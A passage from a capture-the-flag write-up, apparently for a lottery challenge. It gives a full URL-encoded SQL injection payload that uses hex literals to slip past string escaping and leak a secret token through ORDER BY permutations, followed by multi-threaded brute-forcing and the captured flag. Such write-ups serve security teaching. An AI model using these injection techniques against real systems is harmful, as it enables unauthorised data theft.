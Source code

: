 ```
| 2019-04-10 | OQQRH90KDJH1 | 1            | 235789          |             1 |        5 |               1 |
| 2019-04-12 | 2JTBMJW9HZOO | 3            | 25789           |             0 |        4 |               1 |
| 2019-04-14 | L4CY1JMRBEAW | 2            | 5789            |             0 |        3 |               1 |
| 2019-04-18 | 8DKYRPIO4QUW | 5            | 789             |             0 |        2 |               1 |
| 2019-04-22 | BFWQCWYK9VHJ | 7            | 89              |             0 |        1 |               1 |
| 2019-04-27 | 31OSKU57KV49 | 8            | 9               |             0 |        0 |               1 |
+------------+--------------+--------------+-----------------+---------------+----------+-----------------+
9 rows in set (0.00 sec)
```

Writing `0x30313233343536373839` instead of `'0123456789'` to bypass `$db->escape_string(...)`. So querying

    https://glotto.web.ctfcompetition.com/?order1=winner%60*0%2C(select%20concat(substr(%40l%2C1%2Bmod(%40b%2C%40r)%2C1)%2C%40l%3A%3Dconcat(substr(%40l%2C1%2Cmod(%40b%2C%40r))%2Csubstr(%40l%2C2%2Bmod(%40b%2C%40r)))%2C%40b%3A%3D%40b%20div%20%40r%2C%40r%3A%3D%40r-1)from(select%20%40l%3A%3D0x30313233343536373839%2C%40r%3A%3D9%2C%40b%3A%3D362879)x)%23

should give the longest table entirely reversed. And it does! So all left to do is to split and transform `@lotto` into
the right size inputs for the permutation.

The easiest way to convert a single character of the secret token to an integer in `range(36)` is `(ord(c)-22)%43`. By
combining 4 characters of the token we can get an integer in `range(36**4)`, which is enough to index any permutation
of 9 distinct elements, our longest table. That means, if the generated index falls into `range(fact(9))`, then we can
extract the input from the permutation. We can assume that the leak is from this range and calculate the characters of
the token. If the assumption was wrong then the whole procedure will give us a wrong token, and we can try again. The
rest of the tables require at least 3, 3, and 1 characters to be covered. So some information about 11 characters is
leaked, and we have no information of the last character at all, so I just assumed that it is an `A`, and started
bruteforcing. The PHP script did enforce a 5 second delay on wrong submissions, but that didn't prevent us from
firing up 30 threads. Soon we got our flag:

```
1603  BBN 4JAG EED E A You didn't win :(<br>The winning ticket was BBN4J2NE2OE4 BBN4JAGEEDEA
1608  44X CVPB R0B I A You didn't win :(<br>The winning ticket was 44XCVHJRCZ6E 44XCVPBR0BIA
1632  X8S OR1B HWC R A You won! CTF{3c2ca0d10a5d4bf44bc716d669e074b2} X8SOR1BHWCRA
1607  PLY 4O1F GZA I A You didn't win :(<br>The winning ticket was PLY4OTNGRIIJ PLY4O1FGZAIA
1609  QXC Q7AD 2QB S A You didn't win :(<br>The winning ticket was Q17Q7E82ENSB QXCQ7AD2QBSA
```
